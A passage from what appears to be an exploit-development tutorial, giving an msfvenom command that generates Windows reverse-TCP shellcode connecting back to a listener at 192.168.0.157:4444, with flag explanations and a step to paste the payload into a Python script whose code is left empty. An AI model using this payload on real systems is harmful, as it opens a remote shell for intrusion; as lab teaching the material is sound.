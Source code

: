 Generating shellcode means we need a way in which our victim is going to connect back to us, We will be using **msfvenom** for this, to generate our payload, the command will be :

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.157 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"  
```

**LHOST:** the IP in which the target is gonna connect back to
**LPORT:** the port in which target will connect back to
**EXITFUNC:** Makes connection more stable
**-f:** for file type in this case C
**-a:** for architecture, could be x64 or x86
**-b:** for bad characters

- Paste this command into your terminal and you should get a payload

![](https://i.imgur.com/fTp8ZvG.png)

Now insert this payload into this python script replacing the value of the variable `shellcode` with the payload 

```python

```